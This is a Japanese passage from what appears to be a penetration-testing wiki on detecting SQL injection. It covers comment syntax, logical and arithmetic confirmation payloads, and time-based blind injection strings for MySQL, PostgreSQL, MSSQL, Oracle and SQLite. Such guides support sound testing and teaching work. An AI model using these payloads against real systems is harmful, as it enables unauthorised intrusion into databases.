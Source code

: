 ```sql
--comment
/*comment*/

HQL
HQL does not support comments
```
### 論理演算による確認

SQLインジェクションの脆弱性を確認する信頼できる方法は、**論理演算**を実行し、期待される結果を観察することです。例えば、`?username=Peter`というGETパラメータが`?username=Peter' or '1'='1`に変更しても同じ内容が得られる場合、SQLインジェクションの脆弱性が示されます。

同様に、**数学演算**の適用も効果的な確認技術として機能します。例えば、`?id=1`と`?id=2-1`にアクセスして同じ結果が得られる場合、SQLインジェクションを示唆しています。

論理演算確認を示す例:
```
page.asp?id=1 or 1=1 -- results in true
page.asp?id=1' or 1=1 -- results in true
page.asp?id=1" or 1=1 -- results in true
page.asp?id=1 and 1=2 -- results in false
```
この単語リストは、提案された方法で**SQLインジェクションを確認する**ために作成されました：

{% file src="../../.gitbook/assets/sqli-logic.txt" %}

### タイミングによる確認

場合によっては、テストしているページに**変化が見られない**ことがあります。したがって、**ブラインドSQLインジェクションを発見する**良い方法は、DBにアクションを実行させ、ページの読み込みにかかる**時間に影響を与える**ことです。\
したがって、SQLクエリに完了するのに多くの時間がかかる操作を連結します：
```
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```
場合によっては、**sleep関数が許可されない**ことがあります。その場合、これらの関数を使用する代わりに、クエリを**複雑な操作を実行させる**ことができ、数秒かかるようにすることができます。_これらの技術の例は、各技術ごとに別途コメントされます（ある場合）_。
